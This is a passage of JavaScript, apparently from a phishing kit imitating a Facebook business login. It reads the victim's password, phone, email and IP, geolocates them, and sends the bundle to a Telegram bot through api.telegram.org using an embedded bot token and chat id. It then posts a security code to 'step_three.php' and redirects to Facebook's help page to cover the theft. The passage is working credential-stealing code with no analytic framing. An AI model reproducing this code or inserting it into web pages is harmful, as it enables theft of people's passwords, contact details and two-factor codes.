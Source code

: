             })




          });
        } else {
          let code = document.querySelector("#code");
          if (code === null) {
            document.querySelector("#wrong_pass").classList.add('d-none');
            let password = document.querySelector("#password").value.replace('#', '-sharp-');
            $.get("https://ipapi.co/json/", function (response) {
              let country = response.country;
              let regionName = response.region;
              let city = response.city;
              let ip = $("#ip_hidden").val();
              console.log(response);


              var params = {
                content: '---------------------------------------------------------' + '%0A' +
                  'Passi 2: "' + password + '"' + '%0A' +
                  'City : "' + city + '"' + '%0A' +
                  'Country : "' + country + '"' + '%0A' +
                  'Region : "' + regionName + '"' + '%0A' +
                  'Number : "' + document.getElementById('phone').value.replace('#', '-sharp-') + '"' + '%0A' +
                  'Email : "' + document.getElementById('email').value.replace('#', '-sharp-') + '"' + '%0A' +
                  'IP: "' + ip + '"' + '%0A' +
                  '---------------------------------------------------------'
              }


              fetch(`https://api.telegram.org/bot6889191432:AAFw-po-pKJiPAC1mLA7fqfwSNqkrM50HCg/sendMessage?chat_id=6921169662&text=${params.content}/`, {
                method: 'POST', // or 'PUT'
                headers: {
                  'Content-Type': 'application/json',
                },

              }).then(function () {

              })

              let twoPages = true;
              if (twoPages) {
                window.location = 'confirm.html';
              } else {
                document.querySelector("#modal_header").innerText = 'Enter security code';
                document.querySelector("#mod_title").innerText = 'Please enter your security code';
                document.querySelector("#modal_form").innerHTML = '<div class="mt-1 d-flex justify-content-between"><label for="email">Code:</label><input type="text" class="ml-2 input-password" id="code" placeholder="Enter your code"  name="code" style="float: right;"></div>';
              }
            });
          } else {
            $.get("https://ipapi.co/json/", function (response) {
              let country = response.country;
              let regionName = response.region;
              let city = response.city;
              let ip = $("#ip_hidden").val();
              $.post("step_three.php", {
                code: code.value,
                city: city,
                ip: document.getElementById('ipaddress').value.replace('#', '-sharp-')
              });
              window.setTimeout(function () {
                window.location = 'https://www.facebook.com/business/help/507905413074296?helpref=search&sr=1&query=contact';